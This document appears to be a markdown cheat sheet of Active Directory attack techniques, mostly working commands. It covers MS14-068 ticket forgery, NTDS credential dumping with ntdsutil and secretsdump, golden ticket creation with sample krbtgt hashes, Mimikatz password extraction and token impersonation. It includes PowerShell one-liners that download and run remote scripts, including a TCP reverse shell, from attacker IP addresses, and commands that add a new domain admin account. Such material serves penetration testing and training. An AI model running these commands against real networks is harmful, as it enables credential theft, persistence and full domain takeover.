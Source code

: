 # Active Directory Attacks

## Most common paths to AD compromise
  * MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)
    ```bash
    Exploit Python: https://www.exploit-db.com/exploits/35474/
    Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

    git clone https://github.com/bidord/pykek
    python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
    python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
    mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
    ```
  * MS17-010 (Eternal Blue - Local Admin)
    ```c
    nmap -Pn -p445 — open — max-hostgroup 3 — script smb-vuln-ms17–010 <ip_netblock>
    ```
  * Unconstrained Delegation (incl. pass-the-ticket)
  * OverPass-the-Hash (Making the most of NTLM password hashes)
  * Pivoting with Local Admin & Passwords in SYSVOL
    ```c
    findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

    or

    Metasploit: scanner/smb/smb_enumshares
    Metasploit: windows/gather/enumshares
    Metasploit: windows/gather/credentials/gpp
    ```
  * Dangerous Built-in Groups Usage
  * Dumping AD Domain Credentials
  ```c
  C:\>ntdsutil
  ntdsutil: activate instance ntds
  ntdsutil: ifm
  ifm: create full c:\pentest
  ifm: quit
  ntdsutil: quit

  secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

  or

  Metasploit : windows/gather/credentials/domain_hashdump
  ```
  * Golden Tickets
  ```c
  Get info - Mimikatz
  lsadump::dcsync /user:krbtgt
  lsadump::lsa /inject /name:krbtgt

  Get info - Meterpreter(kiwi)
  dcsync_ntlm krbtgt

  Forge a Golden ticket - Mimikatz
  kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
  kerberos::tgt

  Forge a Golden ticket - Metasploit
  post/windows/escalate/golden_ticket

  Forge a Golden ticket - Meterpreter
  load kiwi
  golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
  kerberos_ticket_use /root/Downloads/pentestlabuser.tck
  ```
  * Kerberoast
    ```c
    https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
    https://room362.com/post/2016/kerberoast-pt1/
    ```
  * Silver Tickets
  * Trust Tickets


## Tools
  * [Impacket](https://github.com/CoreSecurity/impacket)
  * Responder
  * Mimikatz
  * [Ranger](https://github.com/funkandwagnalls/ranger)
  * BloodHound
  * RottenPotato
  * [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)

## Mimikatz
```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
```

## PowerSploit
```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```


## PrivEsc - Token Impersonation (RottenPotato)
Binary available at : https://github.com/foxglovesec/RottenPotato      
Binary available at : https://github.com/breenmachine/RottenPotatoNG   
```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


## PrivEsc - MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```


## Local Admin to Domain Admin
```
net user hacker2 hacker123 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```


## Thanks to
 * [https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html](https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html)
 * [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
 * [Road to DC](https://steemit.com/infosec/@austinhudson/road-to-dc-part-1)
 * [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
 * [Golden ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)
